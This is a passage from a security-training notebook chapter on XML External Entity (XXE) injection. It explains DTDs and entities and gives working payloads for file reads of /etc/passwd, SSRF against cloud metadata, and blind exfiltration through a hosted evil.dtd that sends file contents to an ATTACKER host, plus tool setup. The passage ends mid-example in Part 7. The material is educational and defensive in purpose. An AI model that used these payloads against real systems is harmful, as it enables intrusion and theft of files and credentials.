







This is Chapter 6 of the Injection notebook — Notebook 23. The previous chapters walked through
four different interpreters: a SQL engine, an operating-system shell, and a template engine. Each
time the pattern was the same — attacker-controlled text reaches an interpreter that was never
meant to receive it, and the interpreter dutifully executes it. This chapter introduces a fifth
interpreter that is quietly present in a huge fraction of enterprise software: the **XML parser**.

XML looks like inert data — angle brackets and text. But the XML specification includes a small,
almost-forgotten sub-language called the **Document Type Definition (DTD)**, and inside a DTD you
can declare **entities**: named macros that the parser expands before your application ever sees
the document. One flavour of entity, the **external entity**, tells the parser to go *fetch* its
value — from a file path, or from a URL. When an application feeds attacker-controlled XML to a
parser that still resolves external entities (the historical default for most parsers), the
attacker can make the server read local files, make HTTP requests to internal systems it should
never reach (SSRF), exfiltrate data blindly to attacker infrastructure, or exhaust memory and
CPU. That is XML External Entity injection — **XXE**.

The muscle you built across the injection chapters transfers directly: find where your input lands,
identify which interpreter parses it (here, an XML parser), learn that interpreter's special syntax
(the `<!DOCTYPE>` and `<!ENTITY>` declarations), confirm resolution without breaking anything, then
escalate from a harmless proof to controlled impact. We build from the raw mechanics of XML and
DTDs, through a rigorous detection methodology, into deep in-band, error-based, and fully blind
out-of-band exploitation, cover the odd corners (XInclude, SVG, Office documents, SOAP, local-DTD
reuse), and finish with a concrete detection-and-defense model that actually kills the bug class.

> **Legal and ethical boundary — read before the first payload.** Every technique in this chapter
> touches files, internal networks, and out-of-band callbacks on the *target's* infrastructure.
> Run these only against systems you own or are explicitly authorised in writing to test, and stay
> inside the declared scope. XXE in particular makes it trivially easy to pull `/etc/passwd`, cloud
> metadata credentials, or internal service responses — data you have no business reading outside a
> sanctioned engagement. Prove the vulnerability with the *minimum* impactful evidence (a benign
> file, a single Collaborator hit) and stop; do not hoover up secrets to "make the report stronger."

---

## Part 1: What XML Actually Is — The Substrate the Bug Lives In

You cannot understand XXE without understanding XML the way the parser understands it, so we start
below the vulnerability, at the document model itself. If you already write XML fluently, skim —
but do not skip the DTD and entity subsections, because that is where the entire bug lives.

### 1.1 XML in one paragraph

**XML (eXtensible Markup Language)** is a text format for representing tree-structured data. A
document is a single **root element** containing nested child elements, each optionally carrying
**attributes** and **text content**. Unlike HTML, XML has no predefined tags — you invent them —
and it is far stricter about syntax. A minimal document:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<order>
  <customer id="42">Alice</customer>
  <item qty="2">Widget</item>
  <total currency="USD">19.98</total>
</order>
```

The first line is the **XML declaration** (`<?xml ... ?>`) — a processing instruction stating the
version and character encoding. `<order>` is the root. Elements nest, attributes live inside the
start tag (`id="42"`), and text sits between tags.

### 1.2 Well-formedness — the parser's first job

Before an application ever sees the data, the parser checks that the document is **well-formed**:
exactly one root, every start tag has a matching end tag, tags nest without overlap, attribute
values are quoted, and reserved characters are escaped. The five characters that must be escaped in
text/attribute context are the bedrock of XML syntax — memorise them, because **entities are the
mechanism XML uses to escape them**, and entities are the whole game here:

| Character | Predefined entity | Why it must be escaped |
|-----------|-------------------|------------------------|
| `<`       | `&lt;`            | Starts a tag           |
| `>`       | `&gt;`            | Ends a tag             |
| `&`       | `&amp;`          | Starts an entity reference |
| `"`       | `&quot;`         | Delimits attribute values |
| `'`       | `&apos;`         | Delimits attribute values |

Notice the shape: `&name;`. That `&…;` syntax is an **entity reference**. The five above are the
*predefined* general entities, always available. The bug arises because XML lets you **define your
own** entities — and point them at external resources.

### 1.3 Where XML shows up (your attack surface)

XXE is not a niche bug because XML is everywhere in the plumbing of enterprise apps, even where the
front end looks like pure JSON. Anywhere a server *parses* XML that a user can influence is a
candidate injection point:

- **SOAP web services and legacy APIs** — SOAP is XML over HTTP; every request body is a document.
- **REST endpoints that accept `Content-Type: application/xml` or `text/xml`** — many frameworks
  content-negotiate and will happily parse an XML body sent to a normally-JSON endpoint.
- **File-upload formats that are secretly XML/ZIP-of-XML** — SVG, `.docx`/`.xlsx`/`.pptx` (Office
  Open XML), `.odt` (OpenDocument), RSS/Atom feeds, GPX, KML, SAML assertions, XML sitemaps.
- **SAML single sign-on** — the `SAMLResponse` is a base64 XML document parsed on the server.
- **XML-RPC, XMPP, SVG-based image processors, PDF generators that ingest XML, config importers.**

A recurring bug-bounty pattern: a JSON API silently accepts XML if you flip the `Content-Type`
header and rewrite the body. Always try it — it is a five-second test that has paid out four- and
five-figure bounties on programs that assumed "we're a JSON shop, XXE doesn't apply to us."

### 1.4 The parse pipeline, drawn



The vulnerability lives entirely in the `C → E → F` path: a parser that processes an
attacker-supplied DTD and resolves external entities. Kill any one of those steps and the bug dies —
which is exactly how the defense section closes it.

---

## Part 2: DTDs and Entities — The Sub-Language That Is the Vulnerability

This is the most important section in the chapter. Every XXE payload you will ever write is an
application of the four ideas below. Read slowly.

### 2.1 The DOCTYPE and the DTD

A **Document Type Definition (DTD)** declares the legal structure of an XML document — which
elements may appear, in what order, with which attributes — and, crucially, **defines entities**.
A document references a DTD through a **`<!DOCTYPE>`** declaration placed *after* the XML
declaration and *before* the root element.

There are two places a DTD can live:

- **Internal subset** — written inline inside the DOCTYPE, in square brackets:

  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE order [
    <!ENTITY company "Acme Corp">
  ]>
  <order><vendor>&company;</vendor></order>
  ```

- **External subset** — referenced by a URL/path, fetched by the parser:

  ```xml
  <!DOCTYPE order SYSTEM "http://example.com/order.dtd">
  ```

You can also combine them (external + internal subset). **XXE almost always uses the internal
subset**, because that is the part the attacker controls when they submit a document — they simply
inject a `<!DOCTYPE>` with a malicious `<!ENTITY>` at the top of their XML.

### 2.2 General entities — the classic XXE primitive

A **general entity** is a named macro you reference in the document body with `&name;`. Internal
(value given inline):

```xml
<!ENTITY company "Acme Corp">
<!-- &company; expands to: Acme Corp -->
```

**External** — the value is *fetched* from a resource identified by a **system identifier**:

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
<!-- &xxe; expands to the CONTENTS of /etc/passwd -->
```

That single line is *the* classic XXE. `SYSTEM` tells the parser the following string is a URI to
retrieve. `file://` reads a local file; `http://` makes a network request. When the application
later echoes the element that contains `&xxe;`, it echoes the file contents. Diagrammed:



### 2.3 Parameter entities — the primitive that makes *blind* XXE work

Here is the concept most people skip and then cannot understand why their blind payloads fail. XML
has a *second* kind of entity used **only inside the DTD itself**: the **parameter entity**. It is
declared with a `%` and referenced with `%name;` (percent, not ampersand):

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!-- referenced later in the DTD as %file; -->
```

Two facts you must internalise:

1. **General entities** (`&x;`) are referenced in the **document body**.
2. **Parameter entities** (`%x;`) are referenced **inside the DTD**, and (importantly) inside an
   *external* DTD they can be used far more freely than general entities.

Why does this matter? Because the XML spec forbids referencing an external general entity's value
inside another entity declaration in the internal subset — the exact operation you need for
out-of-band exfiltration. Parameter entities are **not** subject to that restriction when the
declaration lives in an external DTD. Parameter entities are therefore the key that unlocks blind,
error-based, and OOB exfiltration on parsers that reject the naive approach. We build this up
carefully in Part 6 — for now, just anchor the syntax: `%` declares and references parameter
entities, `&` declares and references general entities.

### 2.4 The four building blocks, side by side

| Kind | Declared | Referenced | Where usable | XXE role |
|------|----------|-----------|--------------|----------|
| Internal general | `<!ENTITY x "text">` | `&x;` | Document body | Harmless substitution / DoS (billion laughs) |
| External general | `<!ENTITY x SYSTEM "uri">` | `&x;` | Document body | **Classic in-band file read / SSRF** |
| Internal parameter | `<!ENTITY % p "text">` | `%p;` | Inside DTD | Building blocks / concatenation |
| External parameter | `<!ENTITY % p SYSTEM "uri">` | `%p;` | Inside DTD (esp. external) | **Blind / OOB / error-based exfiltration** |

### 2.5 URI schemes the parser will honour

The system identifier is a URI, and which schemes resolve depends on the parser and language. The
schemes worth knowing:

| Scheme | Effect | Notes |
|--------|--------|-------|
| `file://` | Read a local file | The workhorse. `file:///etc/passwd` (three slashes = empty host). |
| `http://` / `https://` | Fetch a URL — **SSRF / OOB channel** | Hits internal services, cloud metadata, or your Collaborator. |
| `ftp://` | Fetch over FTP | Java honours it; useful for OOB exfil of longer/odd data than HTTP. |
| `netdoc://` | Java-specific file read | Legacy Java scheme, occasionally bypasses `file://` filters. |
| `jar:` | Read inside archives (Java) | `jar:file:///path!/entry`; also enables temp-file races. |
| `php://filter` | PHP wrapper — base64-encode a file | **Critical for PHP**: reads files with special chars/binary safely. |
| `expect://` | PHP `expect` extension — RCE | Rare (extension seldom installed) but game-over when present. |
| `data://` | Inline data (PHP) | Feed a base64 DTD without a network fetch. |

`php://filter/convert.base64-encode/resource=/path` deserves a special call-out. A raw
`file:///var/www/config.php` often breaks the parse, because PHP source contains `<`, `&`, and
other characters that make the resulting XML ill-formed. Wrapping the read in the base64 filter
turns the file into a safe `[A-Za-z0-9+/=]` blob that survives parsing — you decode it yourself
afterwards. Remember that one; it is the difference between "XXE reads text files" and "XXE reads
*any* file including binaries and PHP source" on a PHP target.

---

## Part 3: The Simplest Working Exploit — Classic In-Band File Disclosure

With the mechanics in hand, here is the canonical exploit, end to end, on a deliberately vulnerable
endpoint. Assume a "check stock" feature that accepts XML and echoes the `productId` back somewhere
in the response.

### 3.1 The normal request

```http
POST /product/stock HTTP/1.1
Host: vuln.lab
Content-Type: application/xml
Content-Length: 107

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

Normal response: `Error: 381 units — invalid product`. The value `381` is reflected. That reflection
is our read-back channel.

### 3.2 The XXE payload

Inject an internal DTD defining an external general entity, then reference it where the value is
echoed:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

### 3.3 The response

```http
HTTP/1.1 400 Bad Request
Content-Type: text/plain

Error: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
 — invalid product
```

The parser resolved `&xxe;` to the contents of `/etc/passwd`, substituted it into `<productId>`,
and the application echoed it in its "invalid product" error. That is a complete in-band XXE file
read. The exact same payload with `SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/"`
turns the file read into **SSRF against cloud metadata** — often the highest-impact XXE outcome.

### 3.4 Why it sometimes "doesn't reflect"

If the app parses your XML but does not echo the vulnerable element, `&xxe;` is still resolved — you
just cannot see it. That is **blind XXE**, and it is the common case in modern targets. Do not
conclude "not vulnerable" from a lack of reflection; switch to the out-of-band detection in Part 5.
Equally, multi-line file contents injected into a single-line context sometimes trip a *different*
error that leaks the data via a stack trace — that is **error-based XXE**, covered in Part 7.

---

## Part 4: The Toolkit — Burp Suite, Collaborator, and the XXE Utilities From Zero

Before we go blind, install and understand the tools. Every tool here is taught from scratch the
first time it appears, per the authoring contract — if you already run them daily, skip ahead.

### 4.1 Burp Suite — what it is and why XXE work lives in it

**Burp Suite** is an intercepting HTTP/S proxy and web-application testing platform from PortSwigger.
It sits between your browser and the target, letting you *see*, *pause*, *edit*, and *replay* every
request. For XXE it is essential because you must hand-craft raw XML bodies and headers that a
browser will never send. The pieces you use:

- **Proxy** — intercepts live traffic. Configure your browser (or Burp's built-in browser) to route
  through `127.0.0.1:8080`, install Burp's CA certificate so HTTPS is readable.
- **Repeater** — the core XXE tool. Send a captured request here (`Ctrl+R`), then edit the body and
  headers and hit **Send** repeatedly. This is where you iterate payloads.
- **Intruder** — automates payload sweeps (e.g. brute-forcing file paths through an XXE read).
- **Collaborator** — an out-of-band interaction server (below) — the single most important component
  for *blind* XXE.

Install on Kali Linux (it ships pre-installed, but to get/refresh it):

```bash
# Community Edition ships with Kali; to install/update the package:
sudo apt update && sudo apt install -y burpsuite
# Launch:
burpsuite &
```

Community Edition includes Repeater and a **public** Collaborator (with rate limits); Professional
adds a private Collaborator server, the active scanner, and saved Intruder. For serious XXE hunting,
Pro's private Collaborator matters because blind exfil depends on reliable OOB callbacks.

### 4.2 Burp Collaborator — the out-of-band oracle

**Burp Collaborator** is a server, run by PortSwigger (or self-hosted in Pro), that logs any DNS
lookup or HTTP/S request sent to a unique subdomain it hands you, e.g.
`abc123xyz.oastify.com`. The idea: you plant that hostname in a payload; if the *server* resolves or
connects to it, you have proof the payload executed — even when the application response shows you
nothing. That is the definition of an **out-of-band (OOB)** channel, and it is how blind XXE is
detected and exploited.

To get a payload: **Burp → Collaborator tab → "Copy to clipboard"** yields a fresh
`*.oastify.com` subdomain. **"Poll now"** shows interactions. Each interaction lists the type
(DNS/HTTP), the source IP (the *target's* egress IP — record it for the report), and, for HTTP, the
full request including any data you smuggled into the path.



**Free alternative:** if you have no Collaborator access, `interactsh` (from ProjectDiscovery) is an
open-source OOB server you can self-host or use via the public instances:

```bash
# Install the interactsh client (Go required)
go install -v github.com/projectdiscovery/interactsh/cmd/interactsh-client@latest
# Run it — it prints a unique payload domain and live-logs interactions
interactsh-client
# => [INF] Listing 1 payload for OOB Testing
# => c8fr...oast.pro
```

### 4.3 XXEinjector — automating blind file reads

**XXEinjector** (Ruby, by enjoiz) automates the tedious loop of blind/OOB XXE exfiltration:
hosting the malicious external DTD, brute-forcing paths, and reassembling exfiltrated data. Install
and basic use:

```bash
git clone https://github.com/enjoiz/XXEinjector.git
cd XXEinjector
# It needs Ruby (pre-installed on Kali). Save the target request (with the injection
# point marked "XXEINJECT") to a file named req.txt, then:
ruby XXEinjector.rb --host=YOUR_IP --httpport=8888 --file=req.txt --path=/etc --oob=http --phpfilter
```

Key flags: `--host` your listener IP; `--httpport` where it serves the DTD; `--file` the saved
request template with `XXEINJECT` marking where the DOCTYPE goes; `--path` the directory to
enumerate; `--oob=http` selects the HTTP OOB channel (also `ftp`); `--phpfilter` wraps reads in the
base64 filter for PHP targets. It is a force-multiplier once you have *manually* confirmed the bug —
never lead with it blindly against a client's production system.

### 4.4 oxml_xxe and docem — weaponising file-upload formats

**oxml_xxe** and **docem** inject XXE/XInclude payloads into the many file formats that are secretly
XML: `.docx`, `.xlsx`, `.pptx`, `.odt`, `.svg`, `.pdf`, `.xml`. They unzip the container, splice your
DTD into the internal XML parts (`word/document.xml`, etc.), and rezip. Use when the injection point
is a *document upload* rather than a raw XML body (Part 8 covers the theory).

```bash
git clone https://github.com/BuffaloWill/oxml_xxe.git
# Ruby GUI/CLI that embeds a chosen XXE payload into a template document.
```

### 4.5 Manual is king

Tools accelerate, but every serious XXE finding starts with a *manual* Repeater request. The tools
above only make sense once you understand the payloads they emit — which is the rest of this chapter.

---

## Part 5: Blind XXE Detection — Out-of-Band Interaction

When the application does not reflect the entity, you prove the vulnerability by making the server
reach out to infrastructure you control. This is the detection step; exfiltration (getting the data
back) is Part 6.

### 5.1 The detection payload

Define an external entity pointing at your Collaborator/interactsh domain and reference it in the
body:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
  <!ENTITY xxe SYSTEM "http://BURP-COLLAB-ID.oastify.com/x">
]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Send it, then **Poll now**. A **DNS** interaction alone confirms the parser resolved the entity
(some egress firewalls allow DNS but block HTTP — DNS-only is still a positive). An **HTTP**
interaction confirms full outbound reach. Either way: **blind XXE confirmed.**

### 5.2 When the general entity is blocked — pivot to a parameter entity

Some parsers refuse to expand external *general* entities but still process *parameter* entities in
the DTD. If the payload above yields nothing, try the parameter-entity form — the reference lives in
the DTD, not the body:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
  <!ENTITY % xxe SYSTEM "http://BURP-COLLAB-ID.oastify.com/x">
  %xxe;
]>
<stockCheck><productId>1</productId></stockCheck>
```

Here `%xxe;` is referenced *immediately, inside the DTD*, forcing the parser to fetch the URL during
DTD processing. This form frequently succeeds where the general-entity form is filtered.

### 5.3 Detection decision tree



### 5.4 Interpreting no-callback

No callback does not always mean "safe." Consider: egress fully firewalled (try DNS-only, or
error-based/local-DTD exfil in Parts 6–9), DOCTYPE stripped by a WAF (try encoding tricks, Part 10),
or the parser genuinely hardened (the good outcome). Rule XXE *out* only after the local-DTD and
error-based avenues are exhausted, because those work even with zero outbound network.

---

## Part 6: Blind Out-of-Band Exfiltration — Building the Malicious DTD From Scratch

Detecting blind XXE proves the bug; *exfiltrating a file* proves impact. This is the technique that
separates people who "know about XXE" from people who can actually exploit the hard cases. We build
the DTD one line at a time so the mechanism is unambiguous.

### 6.1 The problem, precisely stated

You want to read `/etc/hostname` and have its contents sent to your server, but nothing is reflected.
The naive idea — put the file contents into a URL and fetch it — runs straight into an XML rule:

> A parameter entity reference **cannot appear inside the value of another entity's declaration in
> the internal subset**, and external general entities cannot be referenced from within markup
> declarations either.

In other words, you cannot write the "read a file, then build a URL containing that file" logic in
the *internal* subset the target hands you. The escape hatch: put that logic in an **external DTD**
you host, where parameter entities are allowed to be composed freely.

### 6.2 The hosted DTD, line by line

Host this file (call it `evil.dtd`) on your web server / interactsh / Python `http.server`:

```dtd
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://ATTACKER/collect?x=%file;'>">
%eval;
%exfil;
```

Walk through it:

1. `<!ENTITY % file SYSTEM "file:///etc/hostname">` — parameter entity `file` holds the *contents*
   of the target file.
2. `<!ENTITY % eval "...">` — a parameter entity whose value is *itself a declaration* of a third
   entity, `exfil`. The `&#x25;` is a numeric character reference for `%` — we must encode it so the
   `%` is not interpreted prematurely; it is un-escaped only when `eval` is expanded. Inside that
   inner declaration, `%file;` will be replaced by the file's contents, building a URL like
   `http://ATTACKER/collect?x=<contents-of-/etc/hostname>`.
3. `%eval;` — expanding `eval` *defines* `exfil` (with the file contents already baked into its URL).
4. `%exfil;` — expanding `exfil` triggers the outbound HTTP fetch, carrying the file contents in the
   query string to your server.

### 6.3 The in-band trigger

On the target, the injected internal subset just imports your external DTD and kicks it off:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
  <!ENTITY % xxe SYSTEM "http://ATTACKER/evil.dtd">
  %xxe;
]>
<stockCheck><productId>1</productId></stockCheck>
```

### 6.4 What you see on your server

```bash
# Attacker: serve the DTD and watch the logs
python3 -m http.server 80
# ...target fetches evil.dtd, then:
10.10.14.9 - - "GET /evil.dtd HTTP/1.0" 200 -
10.10.14.9 - - "GET /collect?x=ip-10-0-0-53 HTTP/1.0" 404 -
#                              ^^^^^^^^^^^^ contents of /etc/hostname, exfiltrated
```

The second request's query string carries the file contents. Diagrammed end to end:



### 6.5 Practical limits of the OOB channel

- **HTTP query strings choke on newlines and reserved characters.** `/etc/hostname` is one short
  line and works cleanly. For multi-line files (`/etc/passwd`), the URL breaks. Fixes: read the file
  through `php://filter/convert.base64-encode` first (PHP), or use FTP OOB (Java honours `ftp://` and
  tolerates newlines), or exfiltrate line-by-line. XXEinjector automates the FTP-based reassembly.
- **Some parsers won't fetch the external DTD over HTTP** but will over `ftp://` or `file://` (local
  DTD reuse — Part 9).
- **The external-DTD fetch itself is an OOB interaction** — if you only see `GET /evil.dtd` and never
  the `/collect` hit, the parser imported the DTD but blocked the second fetch or the file read
  failed (wrong path / no permission). Iterate the path.

---

## Part 7: Error-Based XXE — Exfiltration Through Stack Traces

When there is no usable outbound channel but the application returns **verbose parser errors**, you
can smuggle file contents into an *error message*. The trick: make the parser try to open a path that
*is* the file's contents, so the "file not found" error prints the data.

### 7.1 The malicious DTD

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

`%error;` tries to open `file:///nonexistent/<contents-of-/etc/passwd>`. That path does not exist, so
the parser throws an error that *includes the attempted path* — which now contains the file contents:

```
